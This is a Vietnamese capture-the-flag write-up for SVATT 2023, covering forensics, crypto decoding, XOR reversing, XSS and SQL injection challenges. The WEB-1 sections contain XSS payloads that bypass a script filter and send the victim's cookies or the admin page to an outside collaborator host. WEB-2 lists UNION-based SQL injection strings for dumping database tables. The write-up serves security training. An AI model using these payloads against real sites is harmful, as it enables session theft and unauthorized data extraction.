

# **Write-up SVATT 2023**

| Challenge     | FLAG|
| ----------- | ----------- |
| [**FOR-1**](#for-1)      | `ATTT{https://www.youtube.com/watch?v=4qNALNWoGmI}`      |
| [**Crypto-1**](#crypto-1)  | `ATTT{Meow_meow_meow_meow_tra_lai_tam_tri_toi_day}`        |
| [**RE-3**](#re-3)  | `ATTT{XachBaloLenVaDi}`        |
| [**WEB-1**](#web-1)  |`ATTT{3z_X2S_Fr0m_V@tv069_W1th_L0v3}`        |
| [**WEB-1-Again**](#web-1-again)  | `ATTT{4c3076335f56407476303639}`        |
| [**WEB-2**](#web-2)  | `ATTT{4_51mpl3_r3v_5ql}`        |

>## **FOR-1**

- Ở thư mục `Ez4Ence` chúng ta đã thấy 100 thư mục con và trong thư mục con sẽ có những file txt. Vậy câu hỏi đặt ra ở đây làm thế nào tìm thấy flag `ATTT{}` trong thư mục Ez4Ence một cách nhanh nhất. Chúng ta có 2 cách như sau :


- Cách 1: Sử dụng WinRAR để tìm kiếm.
  - Sử dụng Find trên winrar và ta đã tìm được flag nằm trong `Ez4Ence\81\36\0.txt`


- Cách 2: Sử dụng command grep trong linux để tìm kiếm nội dung.


- `Flag:ATTT{https://www.youtube.com/watch?v=4qNALNWoGmI}`

>## **Crypto-1**

- Đến với bài này chúng ta có 2 file bao gồm một file ouput và 1 file encrypt.

- Ta có file enc.cpp như sau:

```c++
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("bases.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

- file base.txt:

```
101 84 54 84 173 77 65 111 167 95 6d 101 157 119 5f 109 145 111 77 95 155 101 6f 119 137 116 72 97 137 108 61 105 137 116 61 109 137 116 72 105 137 116 6f 105 137 100 61 121 175
```

- Ta đã biết `%o %u %x %u` lần lượt là Octal, Unsigned integer, Hex. Và tôi có một script như sau:

```python
data = [101, 84, 0x54, 84, 173, 77, 0x65, 111, 167, 95, 0x6d, 101, 157, 119, 0x5f, 109, 145, 111, 0x77, 95, 155, 101, 0x6f, 119,
        137, 116, 0x72, 97, 137, 108, 0x61, 105, 137, 116, 0x61, 109, 137, 116, 0x72, 105, 137, 116, 0x6f, 105, 137, 100, 0x61, 121, 175]
s = ""


def OctalToDecimal(num):
    decimal_value = 0
    base = 1

    while num:
        last_digit = num % 10
        num = int(num / 10)
        decimal_value += last_digit * base
        base = base * 8
    return decimal_value


for i in range(len(data)):
    if i % 4 == 0:
        s += chr(OctalToDecimal(data[i]))
    else:
        s += chr(data[i])
print(s)
#Flag: ATTT{Meow_meow_meow_meow_tra_lai_tam_tri_toi_day}
```

>## **RE-3**

- Đối với bài này khi đưa vào ida32bit ta sẽ đọc được source code như sau:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // eax
  FILE *v5; // eax
  FILE *v6; // eax
  DWORD Mode; // [esp+18h] [ebp-20h] BYREF
  char Str[4]; // [esp+1Ch] [ebp-1Ch] BYREF
  int v9; // [esp+20h] [ebp-18h]
  int v10; // [esp+24h] [ebp-14h]
  int v11; // [esp+28h] [ebp-10h]
  HANDLE hConsoleHandle; // [esp+2Ch] [ebp-Ch]

  __main();
  *(_DWORD *)Str = 523448849;
  v9 = 406598155;
  v10 = 557725189;
  v11 = 3741480;
  xor_strings(Str, "ISPw");
  hConsoleHandle = GetStdHandle(0xFFFFFFF5);
  if ( hConsoleHandle == (HANDLE)-1 )
  {
    v3 = ___acrt_iob_func(2u);
    fwrite("Failed to get console handle\n", 1u, 0x1Du, v3);
    return 1;
  }
  else if ( GetConsoleMode(hConsoleHandle, &Mode) )
  {
    Mode |= 4u;
    if ( SetConsoleMode(hConsoleHandle, Mode) )
    {
      printf("Flag: ATTT{%s}\x1B[2K\x1B[1GWhat are you waiting for?", Str);
      return 0;
    }
    else
    {
      v6 = ___acrt_iob_func(2u);
      fwrite("Failed to set console mode\n", 1u, 0x1Bu, v6);
      return 1;
    }
  }
  else
  {
    v5 = ___acrt_iob_func(2u);
    fwrite("Failed to get console mode\n", 1u, 0x1Bu, v5);
    return 1;
  }
}
```

- Ở đây ta thấy rằng flag chính là Str và chúng ta sẽ quan tâm đến Str tạo ra như thế nào.


- Như ta đã thấy các giá trị trong Str cũng là các giá trị dạng hex của Str, v9, v10, v11 vì Str được khai báo 4 Byte và v9, v10, v11 là 4 byte và địa chỉ sẽ tiếp tục được nối và gán với nhau như trên.



- Ở đây ta thấy được Str được xor với "ISPw" theo một cách lần lượt đó cũng chính là `xor edx ecx` và gán lại `dl cho địa chỉ hiện tại eax đó là Str[i]`. Từ đó, chúng ta có thể tiếp tục debug tìm ra chuỗi Str như sau:

```asm
Stack[00003D94]:0061FEAC db  58h ; X
Stack[00003D94]:0061FEAD db  61h ; a
Stack[00003D94]:0061FEAE db  63h ; c
Stack[00003D94]:0061FEAF db  68h ; h
Stack[00003D94]:0061FEB0 db  42h ; B
Stack[00003D94]:0061FEB1 db  61h ; a
Stack[00003D94]:0061FEB2 db  6Ch ; l
Stack[00003D94]:0061FEB3 db  6Fh ; o
Stack[00003D94]:0061FEB4 db  4Ch ; L
Stack[00003D94]:0061FEB5 db  65h ; e
Stack[00003D94]:0061FEB6 db  6Eh ; n
Stack[00003D94]:0061FEB7 db  56h ; V
Stack[00003D94]:0061FEB8 db  61h ; a
Stack[00003D94]:0061FEB9 db  44h ; D
Stack[00003D94]:0061FEBA db  69h ; i
```

- `Flag: ATTT{XachBaloLenVaDi}`

>## **WEB-1**

- Đến với Web-1 chúng ta có 1 trang web `Creat Note` và thứ 2 là một trang web `Bot`. Câu hỏi đặt ra ở đây là vì sao lại có một trang web Bot chỉ chứa url nhập vào dường như nó muốn gợi ý cho chúng ta là khi chúng ta gửi url lên bot thì sẽ có một người nào đó nhập vao url. Từ đấy, chúng ta có thể một phần nào liên quan đến XSS. Và làm thế nào mà người dùng nhập vào ta có thể lấy cookie sesionid của người dùng khác. Ta sẽ thử một vài cuộc tấn công XSS ở trang `Creat Notes` như sau:

- Chúng ta thực hiện ```<script>aleet(1);</script>``` nhưng điều này nó không hoạt động, dường như trang web đã khóa từ script. Tôi đã thử lại bằng phương pháp sau ```<sCript>aleet(1);</sCript>``` và nó đã thực hiện thành công. Từ đó, chúng ta cần viết một payload sao cho khi người dùng nhập vào url chúng ta có thể lấy được cookie sessionid.

- Tôi đã viết một payload như sau:

```js
<sCript>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://burp.collaborator.client', true); xhr.send('cookie='+document.cookie);</sCript>
```

- Thực hiện payload lên `Creat note` copy url và gán vào `Bot` ta được kết quả như sau.


- Và ta đã lấy được cookie sessionid của admin. Từ đấy, ta sẽ có thể tìm kiếm flag.


>## **WEB-1-Again**

- Đối với challenge này cũng tương tự challenges web-1 nhưng điều khác biệt ở đây cookie đã được set flag httponly như vậy ta không thể lấy được cookie người dùng. Từ đó, tôi đã nghĩ ra cách làm thế nào mình có thể đọc được trang web admin bằng html. Và tôi thực hiện tương tự điều trên với payload như sau:

```js
<script>
   var req = new XMLHttpRequest();
   req.onload = handleResponse;
   req.open('get','http://167.172.80.186:9999/admin.php',true);
   req.send();
   function handleResponse() {
    var token = this.responseText;
   var changeReq = new XMLHttpRequest();
   changeReq.open('post', 'http://burp.collaborator.client', true);
   changeReq.send('data='+token);
};
</script>
```

- Và tôi đã nhận được flag : `ATTT{4c3076335f56407476303639}`

>## **WEB-2**

- Đối với bài này ta nhận biết được đây là một đề bài sql injection nhưng tôi đã thử như sau:

```
' or 1=1 -- -
```

- Nhưng đã không có một hiện tượng gì xảy ra nhưng tôi thấy trang web đã gợi ý cho tôi một điều `Reverse of name`. Điều này có nghĩa chúng ta nên dịch ngược lại câu lệnh SQL thì mới hoạt động và điều đó đã hoàn toàn hoạt động tốt.


- Từ bảng trên ta thấy bảng đã select 3 cột và flag sẽ nằm trong bảng nào đấy trong database này. Việc chúng ta hãy đi tìm tên bảng và đi tìm tên cột để tìm flag.
- Tôi đã đi tìm tên bảng như sau:

```
' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables -- -

Reverse:
- --selbat.amehcs_noitamrofni MORF 1 ,eman_elbat ,amehcs_elbat TCELES NOINU '
```


- Bước tiếp theo tôi sẽ đi tìm tên cột trong bảng flag:

```
' UNION SELECT table_name, column_name, 1 FROM information_schema.columns-- -
Reverse:
- --snmuloc.amehcs_noitamrofni MORF 1 ,eman_nmuloc ,eman_elbat TCELES NOINU '
```

- Chúng ta thu được các trường hợp tên cột là `flag`

- Tiếp theo chung ta sẽ đi tìm flag như sau:

```
' UNION SELECT 1,flag,1 FROM flag-- -
Reverse:
- --galf MORF 1,galf,1 TCELES NOINU '
```


- Vậy flag: `ATTT{4_51mpl3_r3v_5ql}`
